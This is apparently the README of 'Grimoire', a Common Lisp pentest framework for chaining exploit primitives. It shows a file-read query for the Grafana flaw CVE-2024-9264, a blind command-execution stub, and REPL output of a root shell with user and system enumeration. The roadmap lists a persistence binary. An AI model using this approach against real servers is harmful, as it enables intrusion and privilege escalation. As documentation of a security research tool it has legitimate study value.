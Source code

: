 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:SIGHT) , code executeion (:COMMAND), blind code execution (:SIGHTLESS-COMMAND), file uploads (:MARK), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the spell `download-all` allows the user to download all files in a given remote path if the glyph :COMMAND is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new glyphs from already implemented ones. For example, if you have both the :SIGHT and :SIGHTLESS-COMMAND glyphs, you will be able to derive the :COMMAND through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :sight CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another glyph to do blind execution of code:

```lisp
(define-glyph :sightless-command CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current glyphs:
```lisp
GRIMOIRE> (glyph/info)
[+] Glyph "SIGHT"
Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"
```
    
Now we should check if we have any interesting transmutations to expand our glyphs.

Running `transmutation/info` will yield:
```lisp
GRIMOIRE> (transmutation/info)
[+] Transmutation "CAT"
Runnable? [NO] (needs :COMMAND)
Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
Runnable? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
Needed?   [YES] (provides :COMMAND)
```
    
So lets run the first transmutation in the REPL:
```lisp
GRIMOIRE> (transmutation/run :let-there-be-light)
[+] Added new glyph: :COMMAND
```

So lets test it with the `fake-shell` spell:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```
    
You can always run `(info)` to see the state of the system:
```lisp
================== ~* SPELLS ~* ==================

[+] Spell "SYSTEM-INFO"
    Castable? [YES] (needs :SIGHT)

[+] Spell "ALL-USERS"
    Castable? [YES] (needs :SIGHT)

[+] Spell "USERS"
    Castable? [YES] (needs :SIGHT)

[+] Spell "FLAG"
    Castable? [YES] (needs :SIGHT)

============== ~> TRANSMUTATIONS ~> ==============

[ ] Transmutation "CAT"
    Possible? [NO] (needs :COMMAND)
    Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
    Possible? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
    Needed?   [YES] (provides :COMMAND)

================== <> GLYPHS <> ==================

[+] Glyph "SIGHT"
    Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
    Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"

==================================================
```

## Roadmap

In no particular order:
    
- [ ] Add mark (write) utilities to Grimoire.
- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add a graph like representation of glyphs and how they can be chained together.
- [ ] Add a way to easily share glyphs with other users.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing of new glyphs and spells so we can even make transmutations automatic.
    
- [x] Add a deployable binary for persistance.
- [x] Add command (exec) utilities to Grimoire.
- [x] Add sight (read) utilities to Grimoire.
- [x] Add some kind of database to store relics and other stuff.

